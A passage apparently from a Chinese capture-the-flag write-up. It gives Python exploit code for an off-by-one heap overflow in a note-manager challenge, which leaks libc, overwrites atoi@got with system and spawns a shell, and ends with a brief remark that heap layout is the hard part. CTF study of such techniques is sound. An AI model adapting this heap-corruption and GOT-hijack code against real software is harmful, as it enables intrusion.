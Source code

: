 ```python
editnote('2'*0x10, passwd, 0x88-1, "b"*0x10) # -1 to use next chunk's pre_size as content
editnote('3'*0x10, passwd, 0xf8-1, "c"*0x10)
delnote("2"*0x10, passwd)

#debug()


#off-by-one
success("Performing off-by-one attack...")
evilpd = ("A"*0x88+'1').encode("base64").replace("\n","")[:-1]+"\x00" # eval password off-by-one 0x31
addnote("2"*0x10, evilpd, 0x20-1, "padding") 
#debug()




success("Overwriting noteB header!")
atoi_got = 0x602090
pwd2addr = 0x4019E6 #name exist\x00
payload = ""
payload += "A"*0xf0
payload += p64(0x100)
payload += p64(0x31)
payload += '2'*0x10
payload += p64(pwd2addr) # new passwd
payload += p64(atoi_got) # overwrite note2's content ptr to atoi_got
payload += p64(0x000000100001000)

editnote("3"*0x10,passwd,0x128-1,payload)

#debug()



success("Leaking libc...")
newpd = "name exist\x00".encode("base64")
shownote("2"*0x10,newpd) # now show note2 will leak atoi address
atoiaddr = u64(io.recv(6).ljust(8,'\x00'))
success("atoi addr : "+hex(atoiaddr))
libcbase = atoiaddr - libc.symbols['atoi']
sysaddr = libcbase + libc.symbols['system']
success("libcbase : "+hex(libcbase))
success("system addr : "+hex(sysaddr))

success("Hijacking atoi@got to system...")
payload = p64(sysaddr) # write to note2's content will now edit atoi_got.
editnote("2"*0x10,newpd,0x10,payload)

success("Got shell!")

io.interactive()
```





## 总结



off-by-one漏洞利用的难度还是在于堆结构的布局。
